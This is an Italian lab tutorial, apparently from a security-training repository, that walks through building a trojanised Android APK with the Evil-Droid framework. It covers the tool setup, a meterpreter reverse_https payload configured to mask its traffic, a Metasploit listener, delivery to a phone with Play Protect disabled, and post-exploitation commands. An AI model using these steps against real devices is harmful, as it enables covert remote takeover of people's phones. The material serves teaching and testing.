




# Android Automated Exploitation - Evil-Droid Framework

Questo laboratorio illustra il processo di generazione automatizzata di un payload Android utilizzando il framework Evil-Droid. L'obiettivo è comprendere come strumenti di automazione possano combinare la generazione di un file APK malevolo (tramite MSFVenom) e la gestione del listener (Metasploit) in un'unica interfaccia semplificata.

## Setup dell'Ambiente

- Attacker Machine: Kali Linux in modalità Network Bridge (necessario per ottenere un IP nella stessa sottorete del target).
- Target: Dispositivo Android fisico o emulatore collegato alla stessa rete Wi-Fi/LAN.
- Requisiti: Google Play Protect disabilitato sul target per consentire l'esecuzione del payload non offuscato.

## 1. Installazione e Lancio
Per prima cosa, prepariamo l'ambiente e scarichiamo il framework dal repository ufficiale:

```bash
# Creazione cartella di lavoro
mkdir android_trojan && cd android_trojan/

# Clonazione ed esecuzione del framework
git clone https://github.com/M4sc3r4n0/Evil-Droid.git
cd Evil-Droid
chmod +x evil-droid
sudo ./evil-droid
```

Al primo avvio, il tool chiederà di eseguire i servizi necessari:
> Execute framework and Services? → `yes`



## 2. Configurazione del Payload
Seguiamo i passaggi guidati all'interno del menu di Evil-Droid:

| Parametro | Valore | Descrizione |
| :--- | :--- | :--- |
| Opzione Menu | `1` | Seleziona "Android APK MSF" |
| LHOST | `192.168.1.40` | L'indirizzo IP locale della tua macchina Kali |
| LPORT | `5555` | Porta su cui il target si riconnetterà |
| Payload Name | `evilapk` | Nome del file generato (`evilapk.apk`) |
| Payload Type | `android/meterpreter/reverse_https` | Utilizza HTTPS per mascherare il traffico come web legittimo |

## 3. Gestione del Listener
Una volta generato l'APK, il tool chiederà come gestire la connessione in entrata:

Selezioniamo l'opzione: `multi-handler`

Confermiamo con OK.

Metasploit si avvierà automaticamente configurando `LHOST`, `LPORT` e il `PAYLOAD` corretti.



## Infezione e Post-Exploitation

1.  Consegna: Spostiamo il file `evilapk.apk` sul dispositivo target (tramite server web Python, USB o download diretto).
2.  Esecuzione: Installiamo l'app sul telefono, accettando i permessi richiesti.
3.  Sessione: Non appena l'app viene aperta, su Kali Linux si aprirà una sessione di Meterpreter.



### Comandi di Verifica
Una volta stabilita la connessione, verifichiamo l'accesso:

```bash
meterpreter > sysinfo
# Mostra le info sul sistema operativo e l'architettura del telefono

meterpreter > check_root
# Verifica se il dispositivo ha i permessi di root
```

